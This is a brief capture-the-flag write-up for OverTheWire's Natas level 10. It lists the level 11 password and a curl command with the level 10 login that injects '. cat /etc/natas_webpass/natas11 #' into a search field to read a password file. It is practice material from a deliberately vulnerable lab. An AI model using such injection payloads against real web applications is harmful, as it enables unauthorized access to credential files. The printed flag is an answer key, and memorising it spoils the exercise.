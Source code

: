 
# Flag
natas11:U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK

Same with the last one, only now we use "." to intercept the commands.

curl --user natas10:nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu "http://natas10.natas.labs.overthewire.org" -F needle=". cat /etc/natas_webpass/natas11 #" -F submit=Search